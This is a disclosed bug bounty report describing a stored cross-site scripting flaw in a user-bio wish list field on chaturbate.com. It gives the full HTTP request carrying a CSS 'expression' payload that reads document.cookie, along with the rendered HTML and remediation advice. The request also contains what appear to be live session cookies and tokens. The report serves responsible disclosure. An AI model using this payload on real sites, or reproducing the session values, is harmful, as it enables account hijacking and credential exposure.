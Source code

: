 # Stored XSS on chaturbate.com (wish list)

## Report Details
- **Report ID**: 425048
- **URL**: https://hackerone.com/reports/425048
- **State**: Closed
- **Severity**: low
- **Submitted**: 2018-10-17T15:43:11.808Z
- **Disclosed**: 2018-11-06T08:53:07.211Z

## Reporter
- **Username**: glc
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: chaturbate

## Vulnerability Information
Hi,

I found a stored XSS on `chaturbate.com`


## Description

The input `wish_list` in the bio of a user allows him/her to enter CSS properties, however some browsers like Opera or Internet Explorer are vulnerable to XSS through the attribute `style`.

__request__
```http
POST /accounts/editbio/ HTTP/1.1
Host: chaturbate.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-CSRFToken: tC7J5FySgWbyelHAfbjULIHHjcBSoaLt
X-Requested-With: XMLHttpRequest
Referer: https://chaturbate.com/p/gwen129347565/?tab=bio
Content-Length: 738
Cookie: __cfduid=d2934f3470865ee3896a47085641d896a1538487853; affkey="eJyrViopylayUlBKzU1KTVHSUVBKTEsD8dPLU/MMjSyNTcxNzUxB4gUgUSMQqwjEAjFKQAy/Co80ECc5F6wizSwlKF+pFgDhORXE"; sbr="sec:sbr13ad4f24-5041-4a4c-8750-5f9347349bdf:1gCPeH:kCQ7ZlepO2sJe-PC9TDEjeEJPdY"; csrftoken=tC7J5FySgWbyelHAfbjULIHHjcBSoaLt; xaduuid=a2ff3d56-7ff3-49bd-a599-b2518d5bac1d; __utma=242100432.1318159749.1538487857.1539770646.1539786223.23; __utmz=242100432.1538487857.1.1.utmcsr=(direct)|utmccn=(direct)|utmcmd=(none); agreeterms=1; cbv_vol=6; cbv_mute=0; cbv_scale=0; cbv_maxq=8925658; _ga=GA1.2.1318159749.1538487857; latest_linked_timestamp=1539787885610; latest_linked_username=gwen129347565; jtr=n; __utmc=242100432; sessionid=g94j5x81uh623dx5vklse77ghukz6mdm; itu=0; last_username=gwen129347565; broadcast_terms=1; __utmb=242100432.28.10.1539786223; __utmt=1
Connection: close

csrfmiddlewaretoken=tC7J5FySgWbyelHAfbjULIHHjcBSoaLt&next=%2Faccounts%2Fshowbio%2F&real_name=aaaa&birthday_month=2&birthday_day=3&birthday_year=1963&gender=f&interested_in=f&location=France&spoken_languages=English&body_type=&smoke_drink=&body_decorations=&about_me=&wish_list=bbbbbb<img src="http://poc.10degres.net/ooo.png" style="width:expression(open(alert(document.cookie)))">aaa
```

__code rendered__

```html
<dd>
  <p>
    bbbbbb<img src="https://camo.stream.highwebmedia.com/8364fb9d5dff33ff76ce3a52b2a302ebd2418e3d/687474703a2f2f706174617472612e676c632e73742f6f6f6f2e706e67" style="width:expression(open(alert(document.cookie)))" target="_blank" rel="nofollow">aaa
  </p>
</dd>
```


## PoC

__tested with Internet Explorer 9.0__

Visit this link:
https://chaturbate.com/p/gwen129347565/?tab=bio

{F362064}
{F362063}

## Impact

- hostile code insertion
- session hijacking
- user browser corruption


## Remediation

Encode special characters like `'` `"` `<` `>`
Do not allow CSS properties
Remove keywords like `expression`

## See also

https://www.owasp.org/index.php/Top_10_2013-A3-Cross-Site_Scripting_(XSS)
https://www.owasp.org/index.php/Testing_for_CSS_Injection_(OTG-CLIENT-005)


Best regards,

Gwen

## Attachments
- 20181017-xss-cssbio2.png

